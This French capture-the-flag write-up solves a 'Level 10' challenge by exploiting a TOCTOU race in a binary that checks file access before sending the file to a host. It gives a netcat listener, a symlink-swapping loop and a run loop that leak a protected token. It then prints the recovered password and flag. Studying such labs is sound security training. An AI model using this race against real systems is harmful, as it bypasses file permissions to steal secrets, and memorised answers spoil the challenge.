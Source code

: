 # Level 10

## Étapes pour résoudre le challenge

### 1. Introduction

Dans ce niveau, nous avons un exécutable `level10` et un fichier `token`. L'objectif est d'exploiter une vulnérabilité de type TOCTOU (Time Of Check to Time Of Use) pour accéder au contenu du fichier `token`.

L'exécutable `level10` prend deux arguments : un fichier et un hôte. Il vérifie si l'utilisateur a accès au fichier, se connecte à l'hôte sur le port 6969, et envoie le contenu du fichier à l'hôte.

L'exécutable `level10` utilise la fonction `access` pour vérifier les permissions de lecture sur le fichier avant de l'ouvrir. Cela crée une fenêtre de temps où un attaquant peut remplacer le fichier vérifié par un autre fichier (dans ce cas, le fichier `token`).

Nous allons exploiter cette fenêtre de temps en utilisant un lien symbolique qui alterne rapidement entre l'exécutable `level10` et le fichier `token`. En exécutant l'exécutable `level10` en boucle, nous pourrons éventuellement contourner la vérification de permission et obtenir le contenu du fichier `token`.

### 2. Préparation

#### 2.1. Écouter sur le port 6969

Ouvrez un terminal et lancez la commande suivante pour écouter sur le port 6969 :

```bash
nc -lk 6969
```

#### 2.2. Créer une boucle pour alterner le lien symbolique

Ouvrez un deuxième terminal et lancez la commande suivante pour créer une boucle qui alterne le lien symbolique entre `level10` et `token` :

```bash
while true; do ln -fs ~/level10 /tmp/exploit; ln -fs ~/token /tmp/exploit; done
```

#### 2.3. Exécuter `level10` en boucle

Ouvrez un troisième terminal et lancez la commande suivante pour exécuter `level10` en boucle :

```bash
while true; do ~/level10 /tmp/exploit localhost; done
```

### 3. Identifier le mot de passe

En exécutant les commandes ci-dessus sur trois terminaux différents, vous pourrez voir apparaître le contenu du fichier `token` dans le premier terminal (celui écoutant sur le port 6969).

**Sortie attendue :**

```plaintext
woupa2yuojeeaaed06riuj63c
```

### 4. Connexion avec le mot de passe

Utilisez le mot de passe trouvé pour vous connecter en tant que `flag10` :

```bash
su flag10
password : woupa2yuojeeaaed06riuj63c
```

### 5. Obtenir le flag

Une fois connecté en tant que `flag10`, exécutez la commande `getflag` pour obtenir le flag.

```bash
getflag
```

**Sortie attendue :**

```plaintext
feulo4b72j7edeahuete3no7c
```

## Résumé

Pour résoudre ce challenge, nous avons exploité une vulnérabilité de type TOCTOU en utilisant un lien symbolique qui alterne rapidement entre l'exécutable `level10` et le fichier `token`. Cela nous a permis de contourner la vérification des permissions et d'obtenir le contenu du fichier `token`.

Le flag pour `level10` est : `feulo4b72j7edeahuete3no7c`.
